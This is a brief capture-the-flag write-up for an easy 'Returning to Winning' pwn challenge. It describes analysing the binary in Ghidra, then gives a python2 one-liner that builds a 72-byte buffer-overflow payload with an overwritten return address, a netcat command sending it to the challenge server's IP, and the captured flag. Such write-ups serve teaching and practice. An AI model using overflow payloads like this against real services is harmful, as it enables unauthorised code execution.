


__Challenge Name : Returning to Winning__

Category : PWN

Difficulty : Easy

Points : 50

Author : Samarth Kamble aka {__Nul1Sh4rk__}

DESCRIPTION : A simple pwn challenge

Attachment : [Challenge](c)

In this challenge, they provided an attachment. The first step I took was to analyze it using Ghidra. Here's what I saw:



Next, I created a simple Windows payload using Python.

```python
python2 -c print'"A"*72 + "\x96\x11\x40\x00\x00\x00\x00\x00"' > payload
```
Then using that payload binary exploited netcat server.

$$
nc 13.201.11.182 31414 < payload
$$




Flag : 0CTF{r3t2w!n_c4n_b3_v3ry_e4sy}


